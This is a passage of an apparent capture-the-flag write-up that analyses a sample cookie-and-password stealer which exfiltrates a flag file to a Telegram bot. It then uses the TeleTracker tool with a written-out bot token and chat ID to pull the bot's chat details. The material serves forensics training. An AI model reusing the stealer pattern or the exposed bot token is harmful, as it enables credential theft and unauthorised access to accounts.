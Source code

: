 ```python
    else:
        print(f"[!] File not found: {file_path}")

def main():
    print("[*] Starting credential harvesting...")
    cookies = get_browser_cookies()
    passwords = get_saved_passwords()
    
    # Simulate delay
    time.sleep(2)

    # Pretend to do something with the harvested data
    print("[*] Cookies:", cookies)
    print("[*] Passwords:", passwords)

    # Exfiltrate the flag file
    exfiltrate_file()

if __name__ == "__main__":
    main()
```

We can see that it's a cookie and password stealer that sends sec.txt to a Telegram bot with a user ID 5112027572.

So here participants need to extract the file from the chat between 5112027572 and the bot. To do that, you need to use [TeleTracker](https://github.com/tsale/TeleTracker) - a simple search with ChatGPT or Google could lead you to it.


Using the tool:

```bash
──(env)─(kali㉿kali)-[~/Downloads/TeleTracker]
└─$ python TeleGatherer.py -t 8093615049:AAEtXh1ThBm5jZ-hQ7L57HxwwfK1DsFT9eo -c 5112027572
Bot token and chat ID pair already exists in the file.
Are you sure you want to continue? (y/n): y
Bot Information:
- ok: True
- id: 8093615049
- is_bot: True
- first_name: hacker_dark_hacker
- username: hacker_dark_hacker_bot
- can_join_groups: True
- can_read_all_group_messages: False
- supports_inline_queries: False
- can_connect_to_business: False
- has_main_web_app: False

Chat Information:
- ok: True
- id: 5112027572
- first_name: LEO
- username: P88_80
- type: private
- can_send_gift: True
- active_usernames: ['P88_80']
- has_private_forwards: True
- accepted_gift_types: {'unlimited_gifts': True, 'limited_gifts': True, 'unique_gifts': True, 'premium_subscription': True}
- max_reaction_count: 11
- accent_color_id: 1

Chat Administrators:
- ok: False
```